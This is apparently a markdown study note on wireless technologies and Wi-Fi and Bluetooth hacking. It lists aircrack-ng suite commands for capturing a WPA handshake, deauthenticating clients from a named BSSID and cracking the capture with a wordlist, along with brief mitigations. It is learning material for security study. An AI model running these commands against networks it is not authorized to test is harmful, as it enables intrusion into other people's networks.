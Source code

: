 - A wireless network is a set of two or more devices connected with each other via radio waves within a limited space range.
#### Type of wireless technology
- wifi -- radio wave  2.4GHz
- Bluetooth -- 2.4GHz  100 meter
- Zipbee --- low power consumption  2.4 GHz   915MHz(USA) , 868MHz(Europe)
- nfc --- 4cm 13.56mHz
- Cellular Network  --- 2G , 3G, 4G, 5G  ,  large distance
- LoRa
- Infrared
#### Wireless Hacking
- Wi-Fi (wireless Fidelity)
	- monitor mode
	- managed mode
	- SSID, BSSID,WLAN, CHANNEL(13channel  2.4GHz, 45 channel 5GHz)
	- wireless encryption protocols (WEP, WAP, WPA2, WPA3 )
	##### WLAN Recon
	- iwconfig
	- airmon-ng start <interface>
	- sudo airmon-ng stop <interface>
	- sudo kill 123
	
	- sudo airodump-ng <interface>
		
	#### Hacking WLAN
		1- WPS (to prevent disable WPS)
		2- Handshake Bruteforce (to prevent use WAP3, strong passphrase)
			- airodump-ng wlan0
			
			- airodump-ng --channel 4 -w geez
			
			-sudo aireplay-ng -0 100-a 44:c8:74:86:A2:48 wlan0

			- aircrack-ng geez-01.cap -w rockyou.txt
			
		3- WEP Attack (to prevent donot use)
		4- Evil-twin attack (to prevent use VPN, autosave, https)
			- airgedddon
			-
	#### Bluetooth Hacking
		Bluetooth attack
		- BlueSnarfing
		- BlueScanner
		- BlueBugger
		- SS7
	#### Mobile Security